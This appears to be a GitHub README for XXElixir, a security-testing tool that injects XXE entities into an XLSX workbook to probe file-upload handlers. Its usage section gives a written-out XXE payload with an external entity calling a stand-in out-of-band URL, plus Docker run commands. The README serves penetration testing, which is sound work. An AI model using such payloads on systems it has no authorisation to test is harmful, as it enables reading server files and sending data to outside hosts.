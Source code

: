 <h1 align="center">
XXElixir 🧪
</h1>

<p align="center">
    <img src="XXElixir.svg" height="40%" width="40%" Setfill=None>
</p>

<p align="center">
This tool is designed to test for file upload and XXE (XML External Entity) vulnerabilities by poisoning an XLSX file. It allows the user to inject custom XML content or specify an out-of-band URL to retrieve data from an external entity. The tool works by unzipping the input XLSX file, modifying the workbook.xml file to include the user-specified XML content or URL, and then zipping the modified directory back into a new XLSX file. The resulting file can be used to test for file upload and XXE vulnerabilities in web applications that accept XLSX files.
</p>


## Usage 🛠 

Poison .XLSX file ☣️
```
python3 XXElixir.py --file test.xlsx --xxe "<\!DOCTYPE ShiftSecurityConsulting [ <\!ENTITY xxe SYSTEM 'http://out-of-band.url'> ]>" --output poisoned.xlsx
```
```
python3 XXElixir.py --file test.xlsx --url https://shiftsecurityconsulting.com --output poisoned.xlsx
```

## Running from Docker 🐳

Build
```
docker build -t xxelixir .
```

Run
```
docker run -v $(pwd)/data:/data -ti xxelixir -f data/test.xlsx -u https://shiftsecurityconsulting.com -o /data/poisoned.xlsx
```


## Parameters 🧰 

Parameter | Description | Type
------------ | ------------- | -------------
--url / -u | The URL for out of band testing | String
--file / -f | Input XLSX file | File
--output / -o | Output file | File
--xxe |Custom XXE injection string | String

## Contact Me 📇

[LinkedIn - Milan Jovic](https://www.linkedin.com/in/milan-jovic-sec/)

[Twitter - Milan Jovic](https://twitter.com/milanshiftsec)

#### Educational purposes only and cannot be used for law violation or personal gain.
#### The author of this project is not responsible for any possible harm caused by the materials of this project.
